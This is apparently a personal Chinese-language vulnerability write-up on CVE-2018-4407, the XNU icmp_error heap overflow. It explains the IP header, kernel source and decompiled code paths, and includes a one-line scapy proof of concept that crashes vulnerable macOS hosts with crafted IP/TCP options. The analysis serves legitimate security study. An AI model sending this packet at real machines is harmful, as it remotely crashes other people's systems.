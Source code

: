# 一个mac的数据包处理不当的漏洞

## 程序调用

首先程序调用

ip_input_process_list
的
ip_input
来处理ip数据包



#### **IP数据包结构**：



1-1.版本4位，表示版本号，目前最广泛的是4=B1000，即常说的IPv4；相信IPv6以后会广泛应用，它能给世界上每个纽扣都分配一个IP地址。

1-2.头长4位，数据包头部长度。它表示数据包头部包括多少个32位长整型，也就是多少个4字节的数据。无选项则为5（红色部分）。

1-3.服务类型，包括8个二进制位，每个位的意义如下：

​       过程字段：3位，设置了数据包的重要性，取值越大数据越重要，取值范围为：0（正常）~ 7（网络控制）

​       延迟字段：1位，取值：0（正常）、1（期特低的延迟）

​       流量字段：1位，取值：0（正常）、1（期特高的流量）

​       可靠性字段：1位，取值：0（正常）、1（期特高的可靠性）

​       成本字段：1位，取值：0（正常）、1（期特最小成本）

​       保留字段：1位 ，未使用

1-4.包裹总长16位，当前数据包的总长度，单位是字节。当然最大只能是65535，及64KB。

2-1.重组标识16位，发送主机赋予的标识，以便接收方进行分片重组。

2-2.标志3位，他们各自的意义如下：

​       保留段位(2)：1位，未使用

​       不分段位(1)：1位，取值：0（允许数据报分段）、1（数据报不能分段）

​       更多段位(0)：1位，取值：0（数据包后面没有包，该包为最后的包）、1（数据包后面有更多的包）

2-3.段偏移量13位，与更多段位组合，帮助接收方组合分段的报文，以字节为单位。

3-1.生存时间8位，经常ping命令看到的TTL（Time To Live）就是这个，每经过一个路由器，该值就减一，到零丢弃。

3-2.协议代码8位，表明使用该包裹的上层协议，如TCP=6，ICMP=1，UDP=17等。

3-3.头检验和16位，是IPv4数据包头部的校验和。

4-1.源始地址，32位4字节，我们常看到的IP是将每个字节用点（.）分开，如此而已。

5-1.目的地址，32位，同上。

6-1.可选选项，主要是给一些特殊的情况使用，往往安全路由会当作攻击而过滤掉，普联（TP_LINK）的TL-ER5110路由就能这么做。

7-1.用户数据。



ip前面没有问题，问题在可选字段处理

ip_dooptions函数

如果数据出错就调用icmp_error函数

通过设置错误的长度来触发漏洞
## 漏洞分析

在icmo_error里面拷贝了数据包n
向一个固定大小的堆。

```
m_copydata(n, 0, icmplen, (caddr_t)&icp->icmp_ip);
这里网上的分析全搞错了，其实错的不是这里，实际上错的地方是下面的代码。
作者后来也澄清了这个问题 https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407
* header.
*/
icmplen = min(icmplen, M_TRAILINGSPACE(m) -
sizeof(struct ip) - ICMP_MINLEN);
m_align(m, ICMP_MINLEN + icmplen);
m->m_len = ICMP_MINLEN + icmplen; /* for ICMP header and data */

icp = mtod(m, struct icmp *);
icmpstat.icps_outhist[type]++;
icp->icmp_type = type;
if (type == ICMP_REDIRECT)

icp = mtod(m, struct icmp *);函数里面因为长度大于80，所以成了一个负数，导致程序崩溃，这样的话，这个程序
应该是无法利用的，因为变成了一个狙击的问题，但是没有信息泄漏，只能让他崩溃。
```


确认icmplen的长度

```
nlen = m_length(n);



icmpelen = max(tcphlen, min(icmp_datalen,
(oip->ip_len - oiphlen)));
}



通过这一段
th = (struct tcphdr *)(void *)((caddr_t)oip + oiphlen);

if (th != ((struct tcphdr *)P2ROUNDDOWN(th,
sizeof(u_int32_t))))
goto freeit;
tcphlen = th->th_off << 2;
tcphlen长度60
另一个为包裹总长度。




icmplen = min(oiphlen + icmpelen, nlen);
    oiphlen长度为ip结构长度28

```
计算后，这个玩意是不带l链路层的包裹长度88
```
m_getcl(int wait, int type, int flags)
{
struct mbuf *m;
int mcflags = MSLEEPF(wait);
int hdr = (flags & M_PKTHDR);

/* Is this due to a non-blocking retry?  If so, then try harder */
if (mcflags & MCR_NOSLEEP)
mcflags |= MCR_TRYHARD;

m = mcache_alloc(m_cache(MC_MBUF_CL), mcflags);
if (m != NULL) {
u_int16_t flag;
struct ext_ref *rfa;
void *cl;

VERIFY(m->m_type == MT_FREE && m->m_flags == M_EXT);
cl = m->m_ext.ext_buf;
rfa = m_get_rfa(m);

ASSERT(cl != NULL && rfa != NULL);
VERIFY(MBUF_IS_COMPOSITE(m) && m_get_ext_free(m) == NULL);

flag = MEXT_FLAGS(m);

MBUF_INIT(m, hdr, type);
MBUF_CL_INIT(m, cl, rfa, 1, flag);

mtype_stat_inc(type);
mtype_stat_dec(MT_FREE);
#if CONFIG_MACF_NET
if (hdr && mac_init_mbuf(m, wait) != 0) {
m_freem(m);
return (NULL);
}
#endif /* MAC_NET */
}
return (m);
}


#define    MBUF_INIT(m, pkthdr, type) {                    \
_MCHECK(m);                            \
(m)->m_next = (m)->m_nextpkt = NULL;                \
(m)->m_len = 0;                            \
(m)->m_type = type;                        \
if ((pkthdr) == 0) {                        \
(m)->m_data = (m)->m_dat;                \
(m)->m_flags = 0;                    \
} else {                            \
(m)->m_data = (m)->m_pktdat;                \
(m)->m_flags = M_PKTHDR;                \
MBUF_INIT_PKTHDR(m);                    \
}                                \
}

```
可以看到，实际上的data就是pktdat，长度87
写入87-8的地方



### poc

import scapy
from scapy.all import *
send(IP(dst="192.168.31.129",options=[IPOption("A"*8)])/TCP(dport=2323,options=[(19, "1"*18),(19, "2"*18)]))

### mac

    mac10.12系统上无法利用成功目前，
}
v21 = (unsigned __int64)&v7[v18];
result = v21 & 0xFFFFFFFFFFFFFFFCLL;
if ( v21 != (v21 & 0xFFFFFFFFFFFFFFFCLL) )
goto LABEL_64;
result = 4 * (unsigned int)(unsigned __int8)(*(_BYTE *)(v21 + 12) >> 4);
if ( (unsigned int)result < 0x14 )
goto LABEL_64;
v14 = *((unsigned __int16 *)v7 + 1);
v22 = (unsigned __int16)(4 * (unsigned __int8)(*(_BYTE *)(v21 + 12) >> 4));
v23 = (unsigned __int16)result + v10;
if ( v14 < v23 )
goto LABEL_64;

    这里验证了v21（也就是tcp的地址是不是四字对其）
    ip包本身是对其的，mac包不是，加在一起地址怎么可能对其，poc也跑不通

## 桥接会数据转发，所以主机有洞也会崩溃，切记
## 虚拟机中tcp包无法四字接对齐，所以无法使用
```
     if ( (_WORD *)((char *)v7 + v9) != (_WORD *)(((unsigned __int64)v7 + v9) & 0xFFFFFFFFFFFFFFFCLL) )
     这个地方非要让tcp四字对其，不知道为啥，也不知道为啥实体机器可以（没真机没法测，但是我自己的机器崩了）
```
